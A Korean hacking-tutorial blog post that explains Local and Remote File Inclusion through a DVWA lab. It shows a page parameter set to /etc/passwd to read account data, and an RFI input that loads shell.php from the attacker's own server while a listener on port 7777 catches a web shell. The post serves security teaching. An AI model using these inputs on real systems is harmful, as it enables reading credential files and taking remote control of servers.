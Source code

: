 ```yaml
---
layout: post
title: '[해킹 기초] 9. LFI와 RFI 취약점'
date: '2022-12-30 11:59:10 +0900'
description: '파일업로드 취약점'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: true
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>

### <b>■ LFI(Local File Inclusion)이란?</b>
웹 브라우저를 통해 서버에 파일을 포함시키는 과정에서 발생하는 취약점이다.

### <b>■ ■ LFI(Local File Inclusion) 취약점 공격 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux)
    - Virtual Box(DVWA) -공격 대상

<img src="/assets/img/hacking/part2-2/2.png" alt="표사진"><br>
DVWA 사이트에 들어가서 security를 low로 설정해준뒤 왼쪽 메뉴에서 File Inclusion으로 들어간다.

<img src="/assets/img/hacking/part2-3/2.png" alt="표사진"><br>
File Inclusion으로 들어가서 위에 URL을 보면 page 파라미터를 통해 include.php를 화면에 불러오는 것을 확인할 수 있다.

<img src="/assets/img/hacking/part2-3/3.png" alt="표사진"><br>
page 파라미터를 /etc/passwd로 넣으면 위와 같이 계정 정보가 출력되는 것을 확인할 수 있다. 즉 위에 네모 부분에서 File Includ가 일어나는 것을 확인할 수 있다.
여기서 LFI 취약점을 이용하면 위와 같이 개인정보 같은 중요한 정보들을 출력할 수 있다.

<hr>

### <b>■ RFI(Remote File Inclusion)이란?</b>
공격자가 악성 스크립트를 대상 웹 서버에 전달하여 해당 페이지를 통하여 전달한 악성코드가 실행 되도록 하는 것이다.

### <b>■ RFI(Remote File Inclusion) 취약점 공격 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux)
    - Virtual Box(DVWA) -공격 대상

<img src="/assets/img/hacking/part2-3/4.png" alt="표사진"><br>
cd 명령어를 이용해 /var/www/html 경로로 이동한뒤 leafpad를 이용해 test.html파일을 만들고 안에 위와 같이 적는다.

<img src="/assets/img/hacking/part2-3/5.png" alt="표사진"><br>
test.html페이지를 만들었으면 웹 서비스 apache2를 실행시킨다.

<img src="/assets/img/hacking/part2-2/2.png" alt="표사진"><br>
DVWA 사이트에 들어가서 security를 low로 설정해준뒤 왼쪽 메뉴에서 File Inclusion으로 들어간다.

<img src="/assets/img/hacking/part2-3/7.png" alt="표사진"><br>
File Inclusion으로 들어가서 page 파라미터에 http://[위에서 apache2 실행한 공격자 IP 주소]/test.html을 입력하면 위 그림과 같이
우리가 만든 test.html에 내용 Hello HTML~이 표시된다. 이 부분을 이용해서 공격을 할 것이다. 우리가 <a href="https://jjuseok.github.io/posts/hacking_part2-2/">파일업로드 취약점 게시글</a>에서 이용한 shell.php 파일을 이용할 것이다.

<img src="/assets/img/hacking/part2-3/8.png" alt="표사진"><br>
shell.php를 이용하기 위해서 home 경로에서 shell.php를 현재 경로에 복사해온다.

<img src="/assets/img/hacking/part2-3/10.png" alt="표사진"><br>
복사를 하고나서 파일업로드 취약점 공격했을때와 동일하게 공격자 PC에서 7777포트를 열어준다.

<img src="/assets/img/hacking/part2-3/9.png" alt="표사진"><br>
포트를 열었으면 위 경로에 아까 실습했던 것처럼 page 파라미터에 http://[위에서 apache2 실행한 공격자 IP 주소]/shell.php를 입력해 보자.

<img src="/assets/img/hacking/part2-3/11.png" alt="표사진"><br>
입력하고 포트 열었던 cmd 창으로 이동하면 위와 같이 접속이 되고 사용자 웹 쉘을 획득한 것을 볼 수 있다.
위와 같이 웹 쉘을 획득한 상태에서 피해자 컴퓨터에 명령어 사용이 가능한다. 여러 명령어를 사용해 피해자 컴퓨터를 조종할 수 있으며 여러 중요한 파일들도 볼 수 있다.